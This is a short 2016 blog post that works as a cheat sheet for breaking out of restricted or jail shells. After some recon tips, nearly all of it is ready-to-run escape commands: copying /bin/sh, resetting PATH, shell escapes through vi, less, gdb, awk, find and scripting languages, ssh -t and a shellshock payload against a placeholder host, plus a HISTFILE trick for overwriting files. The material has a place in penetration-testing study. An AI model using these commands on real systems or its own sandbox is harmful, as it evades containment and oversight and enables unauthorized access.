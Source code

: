 ```yaml
---
layout: post
title: "Breaking out of jail shells"
date: 2016-10-24
---
```

This is a quick doc on breaking out of jail/restricted shells.

* Always run your reconnaissance!
  * Run **env** to list out exported environment variables.
  * **echo $SHELL** what shell are we in?
  * **echo $PATH** what is our path set to?
  * Run some basic commands what is and isn\'t allowed? **ls,pwd,cp,mv,env,set,export,vi,\.\.\.**
  * Can you just exploit a running process to escalate privileges and not need to escape out of your shell?
>
* Wins from jail
  * Can you run **cp**? Just copy a file into your path.
    * **`cp /bin/sh /a/dir/from/path; sh`**
  * Is \'/\' allowed?
    * Run **`/bin/sh`**
  * Can you use **export**?
    * **`export PATH=/bin:/usr/bin:$PATH`**
    * **`export SHELL=/bin/sh`**
  * Do you have access to commands that let you execute different system commands?
    * **ftp: `!/bin/sh`**
    * **gdb: `!/bin/sh`**
    * **more/less/man: `?!/bin/sh`**
    * **vi/vim: `:!/bin/sh`**
    * **scp: `scp -S /tmp/naughty.sh x y:`**
    * **awk: `awk 'BEGIN {system('/bin/sh')}'`**
    * **find `find / -name something -exec /bin/sh \;`**
    * Don\'t forget about your favorite language!
      * **python: `python -c 'import os; os.system("/bin/bash")'`**
      * **perl: `perl exec "/bin/sh";`**
      * **ruby: `ruby exec "/bin/sh"`**
      * **lua: `lua os.execute('/bin/sh')`**
>
* Wins from outside jail
  * Just execute commands before your shell is loaded.
    * **`ssh user@10.10.10.10 -t "/bin/sh"`**
  * Don\'t start the rc profile
    * **`ssh user@10.10.10.10 -t "bash --noprofile"`**
  * Try shellshock
    * **`ssh user@10.10.10.10 -t "() { :; }; /bin/bash"`**
>
* Getting creative
  * Using **tee** to write a script.
    * **`echo 'evil code' | tee script.sh`**
  * History file
    * Set **HISTFILE** variable to a file you want to overwrite
    * Set **HISTSIZE** variable to **0** then immediately to **100**
    * Execute lines that should be written to your file
    * Log out and back in again.

Looking for more ways? [Google](http://bfy.tw/8Lq2)
